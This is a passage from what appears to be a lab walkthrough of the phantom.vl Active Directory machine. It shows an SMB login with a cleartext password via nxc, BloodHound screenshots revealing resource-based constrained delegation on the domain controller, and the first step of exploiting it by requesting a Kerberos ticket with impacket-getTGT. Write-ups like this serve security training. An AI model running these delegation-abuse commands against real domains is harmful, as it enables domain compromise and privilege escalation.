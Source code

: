 ```bash
nxc smb phantom.vl -u crose -p 'remo123$'
```

![image.png](../images/phantom%2023.png)

Now let’s see the new user permissions from bloodhound

![image.png](../images/phantom%2024.png)

> As we see we have a Recourse-Based Constrained Delegation on the DC
> 

Now let’s exploit the RBCD 

First let’s get a user ticket

```bash
impacket-getTGT -hashes :$(pypykatz crypto nt 'remo123$') 'phantom.vl'/'crose'
```
